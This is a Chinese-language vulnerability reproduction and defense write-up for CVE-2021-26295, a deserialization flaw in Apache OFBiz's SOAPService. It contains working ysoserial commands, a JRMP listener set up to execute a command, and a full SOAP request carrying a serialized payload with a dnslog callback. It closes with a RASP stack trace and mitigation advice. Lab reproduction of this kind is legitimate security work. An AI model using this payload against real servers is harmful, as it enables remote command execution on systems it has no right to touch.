


# CVE-2021-26295

## 漏洞简介

Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

17.12.06版本之前的SOAPService接口存在一处RMI反序列化漏洞，攻击者利用这个漏洞可以在目标服务器上执行任意命令。


## 漏洞环境

+ 从官方下载一款在波及范围内的ofbiz，这里测试的是
apache-ofbiz-17.12.01
```json
wget http://archive.apache.org/dist/ofbiz/apache-ofbiz-17.12.01.zip
```
+ 下载后，在本地解压，并进入软件目录
```
unzip apache-ofbiz-17.12.01.zip
cd apache-ofbiz-17.12.01
```

+ 在JDK11+环境下进行编译

```
sh gradle/init-gradle-wrapper.sh
./gradlew wrapper --gradle-version=6.8.3
./gradlew cleanAll loadAll
```

+ 在JDK1.8环境下运行
```json
java -jar build/libs/ofbiz.jar
```

+ 访问ofbiz: https://x.x.x.x:8443/myportal/control/main

如果出现以下图示，说明安装正确:


## 漏洞复现

+ 生成payload

```json
java -jar ysoserial-master-8eb5cbfbf6-1.jar JRMPClient "127.0.0.1:1099" > calc.ser
```
+ 打开远程监控1099的RMI控制服务器

```
java -cp ysoserial-master-8eb5cbfbf6-1.jar ysoserial.exploit.JRMPListener 1099 CommonsBeanutils1 /Applications/Calculator.app/Contents/MacOS/Calculator
```

+ 用postman发送攻击请求

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
<soapenv:Header/>
<soapenv:Body>
<ser>
    <map-HashMap>
        <map-Entry>
            <map-Key>
                <cus-obj>aced0005737d00000001001a6a6176612e726d692e72656769737472792e5265676973747279787200176a6176612e6c616e672e7265666c6563742e50726f7879e127da20cc1043cb0200014c0001687400254c6a6176612f6c616e672f7265666c6563742f496e766f636174696f6e48616e646c65723b78707372002d6a6176612e726d692e7365727665722e52656d6f74654f626a656374496e766f636174696f6e48616e646c657200000000000000020200007872001c6a6176612e726d692e7365727665722e52656d6f74654f626a656374d361b4910c61331e03000078707732000a556e696361737452656600093132372e302e302e310000044b0000000012ae07e400000000000000000000000000000078</cus-obj>
            </map-Key>
            <map-Value>
                <std-String value="http://qc04bf.dnslog.cn"/>
            </map-Value>
        </map-Entry>
    </map-HashMap>
</ser>
</soapenv:Body>
</soapenv:Envelope>
```



+ 攻击后效果




注意点：
在复现这个RMI反序列化漏洞的时候，jdk版本要小于1.8.0_121，因为在这之后对RMI做了相应的白名单修复。


## RASP防御

开启Rasp防护功能后，再次发送攻击Payload，能够抓到漏洞的执行堆栈，并进行日志上报、阻断等操作。

```json
{
    "isBlocked":false,
    "stackTrace":[
        "java.lang.UNIXProcess.<init>(UNIXProcess.java:245)",
        "java.lang.ProcessImpl.start(ProcessImpl.java:134)",
        "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
        "java.lang.Runtime.exec(Runtime.java:620)",
        "java.lang.Runtime.exec(Runtime.java:450)",
        "java.lang.Runtime.exec(Runtime.java:347)",
        "ysoserial.Pwner9892934473057929.<clinit>(Gadgets.java)",
        "sun.reflect.NativeConstructorAccessorImpl.newInstance0(Native Method)",
        "sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)",
        "sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)",
        "java.lang.reflect.Constructor.newInstance(Constructor.java:423)",
        "java.lang.Class.newInstance(Class.java:442)",
        "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:455)",
        "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:486)",
        "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)",
        "sun.reflect.GeneratedMethodAccessor79.invoke(Unknown Source)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "org.apache.commons.beanutils.PropertyUtilsBean.invokeMethod(PropertyUtilsBean.java:2127)",
        "org.apache.commons.beanutils.PropertyUtilsBean.getSimpleProperty(PropertyUtilsBean.java:1278)",
        "org.apache.commons.beanutils.PropertyUtilsBean.getNestedProperty(PropertyUtilsBean.java:808)",
        "org.apache.commons.beanutils.PropertyUtilsBean.getProperty(PropertyUtilsBean.java:884)",
        "org.apache.commons.beanutils.PropertyUtils.getProperty(PropertyUtils.java:464)",
        "org.apache.commons.beanutils.BeanComparator.compare(BeanComparator.java:163)",
        "java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:721)",
        "java.util.PriorityQueue.siftDown(PriorityQueue.java:687)",
        "java.util.PriorityQueue.heapify(PriorityQueue.java:736)",
        "java.util.PriorityQueue.readObject(PriorityQueue.java:795)",
        "sun.reflect.GeneratedMethodAccessor77.invoke(Unknown Source)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)",
        "java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1909)",
        "java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1808)",
        "java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1353)",
        "java.io.ObjectInputStream.access$300(ObjectInputStream.java:208)",
        "java.io.ObjectInputStream$GetFieldImpl.readFields(ObjectInputStream.java:2182)",
        "java.io.ObjectInputStream.readFields(ObjectInputStream.java:543)",
        "javax.management.BadAttributeValueExpException.readObject(BadAttributeValueExpException.java:71)",
        "sun.reflect.GeneratedMethodAccessor76.invoke(Unknown Source)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)",
        "java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1909)",
        "java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1808)",
        "java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1353)",
        "java.io.ObjectInputStream.readObject(ObjectInputStream.java:373)",
        "sun.rmi.transport.StreamRemoteCall.executeCall(StreamRemoteCall.java:245)",
        "sun.rmi.server.UnicastRef.invoke(UnicastRef.java:379)",
        "sun.rmi.transport.DGCImpl_Stub.clean(Unknown Source)",
        "sun.rmi.transport.DGCClient$EndpointEntry.makeCleanCalls(DGCClient.java:690)",
        "sun.rmi.transport.DGCClient$EndpointEntry.access$1700(DGCClient.java:188)",
        "sun.rmi.transport.DGCClient$EndpointEntry$RenewCleanThread$1.run(DGCClient.java:600)",
        "sun.rmi.transport.DGCClient$EndpointEntry$RenewCleanThread$1.run(DGCClient.java:593)",
        "java.security.AccessController.doPrivileged(Native Method)",
        "sun.rmi.transport.DGCClient$EndpointEntry$RenewCleanThread.run(DGCClient.java:593)",
        "java.lang.Thread.run(Thread.java:745)"
    ],
    "command":"/usr/local/bin/test"
}
```

## 防御策略

除了官方推荐的升级到安全版本的策略外，在生产环境，往往有大量的老旧应用是无法随意重启的，所以面对大多数情况，RASP可以起到应急规避风险的作用，RASP除了能够阻断反序列化引起的命令执行、sql注入等诸多漏洞的攻击，还能有效防御诸如Tomcat、Jetty、WebLogic等中间件引起的信息泄露问题。
